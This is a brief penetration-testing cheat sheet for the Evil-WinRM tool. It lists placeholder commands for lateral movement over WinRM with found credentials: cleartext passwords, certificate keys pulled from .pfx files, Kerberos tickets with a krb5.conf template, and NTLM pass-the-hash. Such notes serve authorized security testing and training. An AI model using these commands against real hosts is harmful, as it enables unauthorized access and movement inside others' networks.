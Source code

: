 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using foudn credentials with evil-winrm

## Authentication Methods

#### 1) Clear text Password

 - evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

 - evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

 - kinit USERNAME@DOMAIN.TLD (Authenticate and retrieve a ticket)

 - Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

[libdefaults]
    default_realm = DOMAIN.TLD
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    DOMAIN.TLD = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
    }

[domain_realm]
    .domain.tld = DOMAIN.TLD
    domain.tld = DOMAIN.TLD

 - evil-winrm -i TARGET_IP -u USERNAME -r DOMAIN -k

#### 4) NTLM Authentication (Pass-the-Hash)

 - evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
